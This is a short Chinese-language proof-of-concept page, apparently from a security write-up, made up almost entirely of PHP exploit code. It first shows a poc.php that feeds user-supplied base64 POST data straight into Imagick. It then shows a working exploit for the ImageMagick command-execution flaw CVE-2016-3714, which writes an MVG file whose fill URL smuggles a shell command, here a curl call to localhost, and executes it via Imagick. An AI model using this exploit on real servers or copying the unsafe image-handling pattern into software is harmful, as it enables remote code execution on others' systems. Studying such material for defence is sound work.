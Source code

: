 **poc.php内容**

```php
<?php
function readImageBlob() {
    $base64 = "iVBORw0KGgoAAAANSUhEUgAAAM0AAAD
 NCAMAAAAsYgRbAAAAGXRFWHRTb2Z0d2FyZQBBZG9iZSBJbWFnZVJlYWR5c
 cllPAAAABJQTFRF3NSmzMewPxIG//ncJEJsldTou1jHgAAAARBJREFUeNrs2EEK
 gCAQBVDLuv+V20dENbMY831wKz4Y/VHb/5RGQ0NDQ0NDQ0NDQ0NDQ0NDQ
 0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0PzMWtyaGhoaGhoaGhoaGhoaGhoxtb0QGho
 aGhoaGhoaGhoaGhoaMbRLEvv50VTQ9OTQ5OpyZ01GpM2g0bfmDQaL7S+ofFC6x
 v3ZpxJiywakzbvd9r3RWPS9I2+MWk0+kbf0Hih9Y17U0nTHibrDDQ0NDQ0NDQ0
 NDQ0NDQ0NTXbRSL/AK72o6GhoaGhoRlL8951vwsNDQ0NDQ1NDc0WyHtDTEhD
 Q0NDQ0NTS5MdGhoaGhoaGhoaGhoaGhoaGhoaGhoaGposzSHAAErMwwQ2HwRQ
 AAAAAElFTkSuQmCC";
    if(isset($_POST['img'])){
        $base64 = $_POST['img'];
    }
    $imageBlob = base64_decode($base64);

    $imagick = new Imagick();
    $imagick->readImageBlob($imageBlob);

    header("Content-Type: image/png");
    echo $imageBlob;
}
```
集成的 ImageMagick 命令执行漏洞（CVE-2016–3714）

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA(){
$command = 'curl 127.0.0.1:7777'; # 命令

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
}
AAAA();
?>
```
